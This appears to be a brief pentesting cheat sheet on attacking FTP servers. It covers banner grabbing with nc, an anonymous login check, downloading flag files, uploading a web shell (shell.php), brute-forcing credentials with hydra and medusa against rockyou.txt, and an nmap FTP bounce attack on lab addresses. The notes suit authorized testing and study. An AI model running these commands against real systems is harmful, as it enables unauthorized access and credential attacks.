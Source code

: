 ## Banner Grabbing

```
nc -vn <IP> 21 
```

## Connecting to the FTP server using the `ftp` client.

```
ftp 192.168.2.142
```
#### anonymous login check 

```
username : anonymous 
password : anonymous 
```

## File download

```
get flag.txt
mget *
```
## File upload

```
put shell.php
```

# Brute Force

#### [SecLists](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt) - Default Credentials for FTP

```
hydra -L /username.txt -P /usr/share/wordlists/rockyou.txt ftp://10.129.203.7
```

```
medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp
``` 

## FTP Bounce Attack

The `Nmap` -b flag can be used to perform an FTP bounce attack:

```
nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2
```
